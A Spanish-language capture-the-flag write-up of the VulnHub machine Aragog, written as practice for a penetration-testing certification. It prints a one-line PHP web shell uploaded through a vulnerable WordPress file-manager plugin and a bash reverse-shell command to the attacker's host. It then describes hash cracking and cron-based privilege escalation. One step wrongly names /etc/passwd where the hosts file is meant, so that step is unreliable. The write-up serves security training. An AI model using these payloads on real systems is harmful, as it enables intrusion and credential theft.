 #ctf-machine #vulnhub #easy-machine #linux #simulacion-eccptv2 [[Simulation eCPPTv2 Map.canvas|Simulation eCPPTv2 Map]]

## Enumeración inicial
Primeramente realizamos un escaneo ARP con `arp-scan` para identificar la IPv4 de la máquina objetivo:
![[Pasted image 20240828164111.png]]

Sabemos que la IPv4 de la máquina víctima es "192.158.149.147" porque su OUI de la MAC es "00:0c".

Si le lanzamos una traza ICMP con `ping` podemos decir que probablemente se trate de una máquina Linux, ya que suelen tener el valor de TTL cercano a 64:
![[Pasted image 20240828164300.png]]

### Nmap
Lanzamos un primer escaneo con `nmap` para detectar los puertos TCP abiertos:
![[Pasted image 20240828164600.png]]

Como vemos hay 2 puertos abiertos, los puertos 22 (SSH) y 80 (HTTP). Así que lanzamos un segundo escaneo con `nmap` para detectar la versión y servicio que corren para estos dos puertos:
![[Pasted image 20240828164827.png]]

Como vemos esta ejecutando el servicio de "OpenSSH 7.9p1" y el servicio "Apache httpd 2.4.28" ambos de la versión de "Debian" por lo que podemos asegurar que se trata de un sistema Linux.

Hacemos un tercer escaneo con `nmap` para descubrir algunos directorios web que corren por el puerto 80 utilizando el script "http-enum":
![[Pasted image 20240828165154.png]]

Como vemos detecta dos directorios, uno de ellos parece ser un panel de login de WordPress.


## Enumeración web
Si accedemos a la web, vemos una primera imagen:
![[Pasted image 20240828201236.png]]

Como vemos no hay nada interesante así que accedemos al directorio `/blog` que nos había reportado `nmap`. Si accedemos vemos que no carga el contenido correctamente:
![[Pasted image 20240828201354.png]]

Eso es debido a que se está aplicando *virtual hosting*, si accedemos al código fuente de la página podemos verlo:
![[Pasted image 20240828201448.png]]

Así que añadimos este domino en el archivo `/etc/passwd`:
![[Pasted image 20240828201904.png]]

Por lo que si actualizamos la web ahora si se ve el contenido bien:
![[Pasted image 20240828201941.png]]

Si hacemos un escaneo con `gobuster` dentro del directorio `/blog`, vemos lo siguiente:
![[Pasted image 20240828202953.png]]

Como vemos hay un archivo `/blog/wp-signup.php` que puede permitir registrarnos en WordPress.
Pero si accedemos nos indica que no podemos registrarnos, ya que no está habilitado:
![[Pasted image 20240828203430.png]]

## RCE
Si hacemos un escaneo agresivo de *plugins* de WordPress con `wpscan` vemos lo siguiente:
![[Pasted image 20240828222843.png]]

Como vemos hay una vulnerabilidad que nos permite RCE por lo que si buscamos sobre este *plugin* en `searchsploit`:
![[Pasted image 20240828223025.png]]

Si accedemos a la siguiente URL podemos visualizar la versión del *plugin*:
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/readme.txt
![[Pasted image 20240828223403.png]]

Como vemos, es vulnerable, por lo que analizamos el *exploit* debemos comprobar que el siguiente *link*, nos devuelva "errUnknownCmd":
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
![[Pasted image 20240828223646.png]]

Y como vemos, aparece el mensaje. Por lo que si analizamos el *exploit* vemos que podemos subir un archivo PHP malicioso utilizando el `connector.minimal.php`. Por lo que tramitamos una solicitud con `curl` para subir el archivo:
![[Pasted image 20240828230036.png]]

El archivo PHP subido es el siguiente:
```php
<?php system($_GET['cmd']); ?>
```

Como vemos se ha subido el archivo por lo que si accedemos a la URL que se nos indica y utilizamos el parámetro "cmd" tenemos RCE:
![[Pasted image 20240828230142.png]]

Así que nos podemos entablar una *reverse shell* utilizando el comando:
```bash
bash -c "bash -i >& /dev/tcp/192.168.159.131/443 0>&1"
```

Y poniéndonos en escucha con `nc` en el puerto 443 obtenemos una *shell* como "www-data":
![[Pasted image 20240828231053.png]]

Así que hacemos el tratamiento de la TTY para que sea mas cómodo movernos con la *shell*:
![[Pasted image 20240828231225.png]]![[Pasted image 20240828231312.png]]

## Escalada de privilegios
Si accedemos a `/etc/wordpress/config-default.php` vemos unas credenciales de la base de datos:
![[Pasted image 20240828232522.png]]

Si accedemos a ella y mostramos la tabla "wp_users" de la base de datos de WordPress vemos un *hash* del usuario "hagrid98" que es un usuario existente en la máquina víctima:
![[Pasted image 20240828232819.png]]
![[Pasted image 20240828232925.png]]

Si intentamos *crackear* la contraseña del usuario con `hashcat` y el diccionario "rockyou.txt":
```bash
hashcat hash /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240828233141.png]]

Por lo que si intentamos migrar al usuario "hagrid98", lo conseguimos:
![[Pasted image 20240828233342.png]]

Si accedemos al directorio `/home/hagrid98` podemos visualizar la primera *flag*:
![[Pasted image 20240828233445.png]]
![[Pasted image 20240828233521.png]]

Si utilizamos `pspy` para detectar comandos que se ejecutan a intervalos de tiempo definidos, encontramos este comando ejecutado por *root*:
![[Pasted image 20240828234854.png]]

La cual cosa nos permite elevar privilegios porque el dueño de este archivo es el usuario "hagrid68":
![[Pasted image 20240828234955.png]]

Así que si lo modificamos y ponemos la siguiente instrucción
![[Pasted image 20240828235102.png]]

Llegará un momento que *root* ejecute la instrucción y asigne el permiso SUID a la "bash":
![[Pasted image 20240828235208.png]]

Una vez asignado el permiso SUID al binario, si ejecutamos el comando `bash -p` obtenemos una "bash" como *root*:
![[Pasted image 20240828235255.png]]

Y podemos visualizar la última *flag* en el directorio `/root`:
![[Pasted image 20240828235338.png]]
![[Pasted image 20240829000733.png]]

___
#abusing-cron-tasks #file-upload-attacks #hash-cracking 
___
